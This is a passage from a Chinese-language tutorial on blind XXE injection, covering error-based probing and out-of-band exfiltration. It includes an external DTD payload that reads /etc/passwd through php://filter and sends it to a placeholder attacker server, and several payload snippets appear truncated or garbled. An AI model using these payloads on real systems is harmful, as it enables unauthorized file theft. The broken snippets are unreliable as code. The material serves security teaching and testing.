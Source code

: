 但是也只能读取一些简单的文本文件，如果文本中含有&或%还是无法进行读取。

### 1.3.3、无回显

当遇到服务器响应始终为空的情况时，针对 XXE漏洞可以选择报错利用和外带利用两种策略。

#### 1.3.3.1、报错利用

通过构造特殊的 XXE 请求来触发服务器的错误响应。通常，当服务器处理错误的 XXE 请求时，会返回一些有关其内部环境的信息。输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，则证明文件不存在，如返回200，则证明文件存在。

```php
<?xml version="1.0" encoding="UTF-8"?>
%remote;]>
```

![image.png](assets/1700812438-25851ce70a91c291f17e58493bef328c.png)

#### 1.3.3.2、外带利用

通过 XXE 请求控制服务器发出的网络请求，尝试让服务器向我们的VPS发起请求，这样就可以直接在VPS上查看请求的结果。

1、可以引用外部DTD

我们可以使用参数实体，引用外部DTD。

```php

Payload
    
    %remote;%int;%send;
    ]>

test.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```
